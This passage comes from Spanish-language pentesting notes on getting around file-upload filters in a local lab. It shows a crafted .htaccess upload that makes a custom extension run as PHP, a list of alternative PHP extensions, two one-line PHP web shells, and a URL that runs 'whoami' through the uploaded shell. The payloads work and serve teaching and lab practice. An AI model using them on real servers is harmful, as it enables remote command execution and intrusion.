 **Nota:** esto solo funcionará si el servidor está usando **Apache** y tiene habilitado `.htaccess` (lo cual **no siempre ocurre** en producción)

```bash
Content-Disposition: form-data; name="fileToUpload"; filename=".htaccess"

Content-Type: text/plain



AddType application/x-httpd-php .test
```


![Captura](./Imágenes/burpsuite_!.png)

![Captura](./Imágenes/burpsuite_2.png)

Explicación:  tras cambiar la política de lectura con `.htaccess` podemos subir un archivo que tenga la extensión indicada para ejecutar comandos

**Nota:** podemos probar [diferentes extensiones *php*](https://hacktricks.boitatech.com.br/pentesting-web/file-upload)

Acción: 

```text
PHP**: _.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, .phps, ._phps_, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc_
```

Explicación:  dependiendo de como este sanitizado el código fuente puede ser que alternativas a la extensión php sean válidas

---
## Sanitización por restricción de tamaño/size

Acción:

```html
<?php system($_GET[0]);?>
```

```html
<?=`$_GET[0]`?>
```

Resultado:

```URL
http://localhost:9001/upload16/uploads/cmd.php?0=whoami 
```

Explicación:  para restricciones según el tamaño (size) podemos acotar nuestro payload

---
## Sanitización por tipo de archivo

